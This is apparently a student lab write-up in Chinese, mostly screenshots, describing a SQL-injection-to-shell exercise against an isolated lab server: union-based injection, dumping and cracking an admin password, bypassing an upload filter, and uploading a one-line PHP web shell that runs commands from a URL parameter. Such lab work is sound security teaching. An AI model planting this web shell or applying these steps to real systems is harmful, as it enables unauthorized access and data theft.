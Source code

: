 # 实验三	from sql to shell

## 环境搭建

* 攻击者主机环境：
  * host-only
  * ![text](attacker.png)
* 网站服务器ip
  * ![text](victim.png)

## 实验过程

* 攻击者主机浏览器设置代理

  * ![text](proxy.png)
  * 访问192.168.137.69
    * ![text](origin.png)
  * 使用burpsuite查看通信数据,得到服务器的版本及php版本信息
    * ![text](response.png)

* 检测SQL注入

  * 查看id=1和id=2-1结果相同，猜测sql注入可行。
    * ![text](id=1.png)
  * ![text](id=2-1.png)

* 进行SQL注入

  * 字符串拼接union select 测试出列数为4.
    * ![text](test.png)
    * ![text](test-success.png)
  * 查看数据库版本信息
    * ![text](version.png)
  * 查看当前用户
    * ![text](curuser.png)
  * 查看所有表名
    * ![text](user.png)
  * 查看user表中的用户名和密码
    * ![text](adminis's passwd&user.png)
    * 获得密码后，使用md5解密
      * ![text](decrypy.png)
    * 使用用户名密码成功登录管理员账户
      * ![text](success-login.png)

* 文件上传 

  * 尝试上传php脚本

    * ![text](no-php!.png)

  * 绕过php过滤。直接修改后缀重新上传

    * php文件：

      * ```php
        <?php
             system($_GET['cmd']);
        ?>
        ```

      * 点击查看源代码可以看到php文件存储路径：

        * ![text](shell.png)
        * 点击进入页面。构造输入串，实现直接在服务器终端操作。
          * ![text](ls.png)

* ​